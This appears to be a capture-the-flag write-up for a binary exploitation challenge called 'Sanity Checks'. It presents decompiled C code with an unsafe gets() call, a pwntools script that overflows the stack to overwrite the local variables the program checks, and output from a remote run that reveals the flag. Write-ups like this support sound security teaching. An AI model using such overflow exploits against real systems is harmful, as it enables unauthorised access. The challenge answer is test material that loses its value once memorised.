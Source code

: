 # Sanity Checks
**Category: Binary Exploitation**

Executing this program gives a prompt asking for a password:

```
$ ./checks
Enter the secret word: secret
Login failed!
```

Let's take a look at the decompiled code to see what we are dealing with:

```c
void main(void)

{
  int iVar1;
  char local_e8 [128];
  char local_68 [64];
  FILE *local_28;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  int local_c;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  local_c = 0;
  local_10 = 0;
  local_14 = 0;
  local_18 = 0;
  local_1c = 0;
  printf("Enter the secret word: ");
  gets(local_68);
  iVar1 = strcmp(local_68,"password123");
  if (iVar1 == 0) {
    puts("Logged in! Let\'s just do some quick checks to make sure everything\'s in order...");
    if ((((local_c == 0x32) && (local_10 == 0x37)) && (local_14 == 0xf5)) &&
       ((local_18 == 0x3d && (local_1c == 0x11)))) {
      local_28 = fopen("flag.txt","r");
      if (local_28 == (FILE *)0x0) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      fgets(local_e8,0x80,local_28);
      printf(local_e8);
    }
    else {
      puts("Nope, something seems off.");
    }
  }
  else {
    puts("Login failed!");
  }
  return;
}
```

Some things to note:
1. The password is `password123`
1. Not only must we set the right password, but we need `local_c`, `local_10`, `local_14`, `local_18`, and `local_1c` all to be set to specific values to display the flag. We don't directly control the values these variables have.
1. The variable that holds our password input is read with the `gets` function, which is vulnerable to buffer overflow.

I built out the following program to get the flag:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./checks')

if args.REMOTE:
    io = remote('shell.actf.co', 21303)
else:
    io = process(binary.path)

PASSWORD = 'password123\0'

log.info(io.recvuntil(': '))

PAYLOAD = [
    PASSWORD + 'A' * (64 - len(PASSWORD)), # local_68
    'B' * 12,
    p32(0x11), # local_1c
    p32(0x3d), # local_18
    p32(0xf5), # local_14
    p32(0x37), # local_10
    p32(0x32) # local_c
]

print(flat(*PAYLOAD))
io.sendline(flat(*PAYLOAD))
io.stream()
```

To explain the payload:
1. Strings in C are null terminated. Using the `\0` at the end of our password will make the `strcmp` check stop processing the extra characters we injected after the password.
1. `0x68` - `0x1c` = `76` characters that we have to write before we start overwriting these int values. This is why we write `12` `B` characters after our initial `64` `A` characters.
1. We set the integer checks to the necessary values.

```
$ ./exploit.py REMOTE
[+] Opening connection to shell.actf.co on port 21303: Done
[*] Enter the secret word:
b'password123\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB\x11\x00\x00\x00=\x00\x00\x00\xf5\x00\x00\x007\x00\x00\x002\x00\x00\x00'
Logged in! Let's just do some quick checks to make sure everything's in order...
actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}
```
